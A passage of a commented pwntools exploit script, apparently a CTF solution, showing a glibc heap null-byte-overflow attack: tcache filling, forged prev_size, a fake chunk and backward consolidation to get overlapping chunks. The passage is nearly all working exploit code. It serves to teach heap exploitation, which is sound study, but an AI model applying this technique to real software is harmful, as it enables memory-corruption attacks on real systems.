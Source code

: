 ```python
    return content

def free(page):
    p.sendlineafter('> ', '4')
    p.sendlineafter(': ', str(page))

if args.GDB:
    debug([0x1024])

# Exploit goes here

# Setup
add(0x128) # A, idx 0
add(0x118) # B, idx 1
add(0x118) # C, idx 2

# Fill up tcache bin 0xf0
# This is done because the NULL byte overflow will set the PREV_INUSE bit of the next chunk to 0
# Meaning that it will change the next chunks size to 0x100, and 0x100 chunks go into the 0xf0 tcache bin
# We prevent it from going into this tcache bin because we want that chunk to consolidate backwards
# This will be evident further below
for i in range(7):
	add(0xf0)
for i in range(7):
	free(i+3)

# Fill up tcache bin 0x128
# We do this because of the same reason above
for i in range(7):
	add(0x128)
for i in range(7):
	free(i+3)

# Make chunk A go into unsorted bin
# This is important because we are consolidating chunk C back with both chunks A and B
# Meaning that chunk A needs to already be free, i.e B's PREV_INUSE bit must be set to 0
# This free will also put a libc pointer into chunk A's forward and back pointers
free(0)

# Null byte overflow onto chunk C. C's size is now 0x100. C's prev_size is also set to 0x250
talk(1, 'B'*0x110 + p64(0x250))

# Before we free chunk C, we must ensure that there is a fake chunk 0x100 bytes after chunk C
# This fake chunk must have its PREV_INUSE bit set to 1, hence we choose size 0x21
# The fake chunk is required because chunk C will go into the unsorted bin, which checks to make sure
# that the next chunk's PREV_INUSE bit is set, else it will suspect a double free has occurred
talk(2, 'C'*0xf8 + p64(0x21) + '\n')

# We free C now. Since the prev_size field for C is set to 0x250, this will cause C to consolidate backwards
# by 0x250 bytes, which gives us a chunk in the unsorted bin that has the size 0x350. Now we can allocate
# any chunks less than that size (given that the corresponding tcache bin is full) and have the unsorted bin
# service our requests. Remember that we still have a pointer to chunk B.
free(2)

# Empty the 0x128 tcache bin
# Indexes taken up: 0, 2, 3, 4, 5, 6, 7
for i in range(7):
	add(0x128)
```